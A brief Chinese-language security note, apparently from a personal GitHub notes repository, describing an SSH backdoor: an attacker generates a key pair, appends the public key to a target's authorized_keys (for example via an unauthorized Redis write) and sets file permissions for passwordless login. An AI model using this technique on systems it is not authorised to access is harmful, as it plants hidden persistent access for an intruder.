


# SSH后门-SSH公钥免密登录

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BRedis%2B%E6%81%B6%E6%84%8F%E4%BB%A3%E7%A0%81-SSH%E5%90%8E%E9%97%A8-SSH%E5%85%AC%E9%92%A5%E5%85%8D%E5%AF%86%E7%99%BB%E5%BD%95.md)

> 这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的shell，比如redis未授权写入公钥。
>
> 但是这个方法比如容易被发现

攻击机生成公私钥对：

```
ssh-keygen -t rsa
```

## 

再把公钥id_rsa.pub发送到目标上，追到到**authorized_keys**文件中：

```
echo id_rsa.pub >> .ssh/authorized_keys  //将id_rsa.pub内容放到目标.ssh/authorized_keys里
```

```

```

同时赋予权限，但是权限不能过大:

```
chmod 600 ~/.ssh/authorized_keys
chmod 700 ~/.ssh
```

然后，ssh在开启密钥登录功能的前提下，攻击机即可免密登录。
